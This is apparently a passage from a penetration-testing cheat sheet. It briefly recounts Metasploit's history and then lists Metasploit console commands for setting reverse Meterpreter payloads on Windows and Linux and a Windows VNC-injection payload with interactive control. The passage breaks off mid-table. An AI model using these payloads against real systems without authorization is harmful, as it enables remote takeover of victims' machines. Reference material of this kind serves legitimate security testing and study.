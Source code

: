 <figure>
<pre>!sh</pre>
</figure>
<h2>Metasploit</h2>
<p>Metasploit was created by H. D. Moore in 2003 as a portable network tool using Perl. By 2007, the Metasploit Framework had been completely rewritten in Ruby. On October 21, 2009, the Metasploit Project announced that it had been acquired by Rapid7, a security company that provides unified vulnerability management solutions.</p>
<p>Like comparable commercial products such as Immunity’s Canvas or Core Security Technologies’ Core Impact, Metasploit can be used to test the vulnerability of computer systems or to break into remote systems. Like many information security tools, Metasploit can be used for both legitimate and unauthorized activities. Since the acquisition of the Metasploit Framework, Rapid7 has added two open core proprietary editions called Metasploit Express and Metasploit Pro.</p>
<p>Metasploit’s emerging position as the de facto exploit development framework led to the release of software vulnerability advisories often accompanied by a third party Metasploit exploit module that highlights the exploitability, risk and remediation of that particular bug. Metasploit 3.0 began to include fuzzing tools, used to discover software vulnerabilities, rather than just exploits for known bugs. This avenue can be seen with the integration of the lorcon wireless (802.11) toolset into Metasploit 3.0 in November 2006. Metasploit 4.0 was released in August 2011.</p>
<h3>Meterpreter Payloads</h3>
<h3>Windows reverse meterpreter payload</h3>
<table>
<thead>
<tr>
<th>Command</th>
<th>Description</th>
</tr>
</thead>
<tbody>
<tr>
<td>set payload windows/meterpreter/reverse_tcp</td>
<td>Windows reverse tcp payload</td>
</tr>
</tbody>
</table>
<h3>Windows VNC Meterpreter payload</h3>
<table>
<thead>
<tr>
<th>Command</th>
<th>Description</th>
</tr>
</thead>
<tbody>
<tr>
<td>set payload windows/vncinject/reverse_tcp<p></p>
<p>set ViewOnly false</p></td>
<td>Meterpreter Windows VNC Payload</td>
</tr>
</tbody>
</table>
<h3>Linux Reverse Meterpreter payload</h3>
<table>
<thead>
<tr>
<th>Command</th>
<th>Description</th>
</tr>
</thead>
<tbody>
<tr>
<td>set payload linux/meterpreter/reverse_tcp</td>
<td>Meterpreter Linux Reverse Payload</td>
</tr>
